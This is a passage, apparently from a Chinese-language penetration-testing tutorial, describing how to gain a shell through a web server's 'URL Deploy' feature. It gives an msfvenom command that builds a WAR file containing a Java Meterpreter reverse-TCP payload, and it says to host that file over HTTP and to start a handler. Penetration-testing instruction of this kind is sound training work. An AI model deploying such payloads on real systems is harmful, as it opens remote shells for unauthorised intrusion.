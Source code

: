 1.  向下滚动页面，我们将看到多个`deploy`方法。选择`URL Deploy`方法，这将允许我们从远程 URL 获取 WAR 文件：

![](img/ccef5707-375f-4b50-9229-2fb75bd3e477.png)

1.  使用以下命令生成基于 WAR 的 Metasploit 有效载荷：

```
Msfvenom -p java/meterpreter/reverse_tcp lhost=<Metasploit_Handler_IP> lport=<Metasploit_Handler_Port> -f war -o <filename>.war
```

1.  现在我们需要将 WAR 文件托管在 HTTP 服务器上，并将 URL 粘贴到输入字段中，如下所示：

![](img/6f90207a-c92b-435d-b963-ae52e389f404.png)

1.  让我们设置我们的利用处理程序如下所示：

![](img/cf918cfe-c4ba-4ca3-b9dd-38ffb5f1dec0.png)
